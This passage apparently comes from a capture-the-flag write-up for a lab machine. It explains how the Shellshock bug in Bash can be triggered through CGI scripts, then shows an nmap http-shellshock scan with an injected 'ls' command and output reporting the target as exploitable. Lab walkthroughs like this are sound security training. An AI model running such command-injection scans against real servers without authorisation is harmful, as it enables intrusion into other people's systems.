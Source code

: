 ```
Connection: close
Content-Type: text/x-sh
Content-Length: 118

Content-Type: text/plain

Just an uptime test script
 11:20:38 up  4:46,  0 users,  load average: 0.00, 0.00, 0.00
```
So, it seems like that a bash script is executing an uptime command for generating the response.  
When a web server uses the Common Gateway Interface (CGI) to handle a document request, it copies certain information from the request into the environment variable list and then delegates the request to a handler program.  
If the handler is a Bash script, or if it executes one for example using the system call, Bash will receive the environment variables passed by the server and will process them as described above.  
This provides a means for an attacker to trigger the Shellshock vulnerability with a specially crafted document request.
Shellshock affects bash 1.0.3-4.3 [from this page](https://packages.ubuntu.com/xenial/allpackages) we can see that shellshock maybe is unavailable for this version of Ubuntu.  
Let's check it anyway, using the dedicated nmap plugin
```
[root@kali Shocker ]$ locate .nse | grep shellshock
/usr/share/nmap/scripts/http-shellshock.nse
```
Now we can open this nmap plugin and see how to run this:
```
nmap -sV -p80 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls $TARGET
```
And we do get the following output and see that the target is vulnerable to shellshock
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-shellshock:
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     Exploit results:
|       <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
|   <html><head>
|   <title>500 Internal Server Error</title>
|   </head><body>
|   <h1>Internal Server Error</h1>
|   <p>The server encountered an internal error or
|   misconfiguration and was unable to complete
|   your request.</p>
|   <p>Please contact the server administrator at
|    webmaster@localhost to inform them of the time this error occurred,
|    and the actions you performed just before this error.</p>
|   <p>More information about this error may be available
|   in the server error log.</p>
|   <hr>
|   <address>Apache/2.4.18 (Ubuntu) Server at 10.10.10.56 Port 80</address>
|   </body></html>
|   
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|       http://seclists.org/oss-sec/2014/q3/685
```